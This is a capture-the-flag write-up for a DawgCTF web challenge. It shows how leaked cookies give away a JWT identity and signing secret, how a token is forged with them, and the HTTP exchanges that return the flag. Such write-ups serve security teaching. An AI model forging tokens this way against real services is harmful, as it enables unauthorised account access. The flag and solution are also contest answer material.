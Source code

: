 ## Free Wi-Fi Part 2

* **Category:** web/networking
* **Points:** 300

### Challenge

> I saw someone's screen and it looked like they stayed logged in, somehow...
> 
> http://freewifi.ctf.umbccd.io/
> 
> Authors: pleoxconfusa and freethepockets

### Solution

At this point, you can spot two interesting cookies:
* `JWT 'identity'=31337`;
* `JWT 'secret'="dawgCTF?heckin#bamboozle"`.

Analyzing the capture, you can find two packets, #261 and #263, regarding a JWT-related endpoint.

```
GET /jwtlogin HTTP/1.1
Host: freewifi.ctf.umbccd.io
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: WifiKey nonce=MjAyMC0wNC0wOCAxNzowMg==; session=eyJjc3JmX3Rva2VuIjoiYTg4ZWQxZjVkODhhZTgyZDEzMWY4ODhmZWExZjYwNDRmNTEwMDgyMCJ9.Xo35dQ.zpNEVjf6uG_5vhqwNCE7bS8QEz0
Connection: keep-alive
Upgrade-Insecure-Requests: 1

HTTP/1.0 401 UNAUTHORIZED
Content-Type: application/json
Content-Length: 125
WWW-Authenticate: JWT realm="Login Required"
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Wed, 08 Apr 2020 17:02:35 GMT

{
  "description": "Request does not contain an access token", 
  "error": "Authorization Required", 
  "status_code": 401
}
```

You can use [JWT.io website](https://jwt.io/) to craft a valid JWT with `31337` identity and signed with `dawgCTF?heckin#bamboozle` secret.

```
{"alg":"HS256","typ":"JWT"}.{"identity":31337,"iat":1586564945,"nbf":1586564945,"exp":1586908800}.Hx0gLrzRZy4lGdEhvV_eIpdpSSa_pd6FQVBy1pMVNPE

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6MzEzMzcsImlhdCI6MTU4NjU2NDk0NSwibmJmIjoxNTg2NTY0OTQ1LCJleHAiOjE1ODY5MDg4MDB9.Hx0gLrzRZy4lGdEhvV_eIpdpSSa_pd6FQVBy1pMVNPE
```

Calling the endpoint with the JWT in the `Authorization` header will give you the flag.

```
GET /jwtlogin HTTP/1.1
Host: freewifi.ctf.umbccd.io
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: WifiKey nonce=MjAyMC0wNC0xMSAwMDoxNg==; WifiKey alg=SHA1; session=eyJjc3JmX3Rva2VuIjoiYTA2MmZkNTUyNzM3NmQwMTAxYTc4YzgwMmFlNmFkOTI5ZGQzNzU3OCJ9.XpD3NA.zDj47SdpKQnikt--V9WnN0zUmYQ; JWT 'identity'=31337; JWT 'secret'="dawgCTF?heckin#bamboozle"
Authorization: JWT eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6MzEzMzcsImlhdCI6MTU4NjU2NDk0NSwibmJmIjoxNTg2NTY0OTQ1LCJleHAiOjE1ODY5MDg4MDB9.Hx0gLrzRZy4lGdEhvV_eIpdpSSa_pd6FQVBy1pMVNPE
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 11 Apr 2020 00:35:23 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 27

DawgCTF{y0u_d0wn_w!t#_JWT?}
```
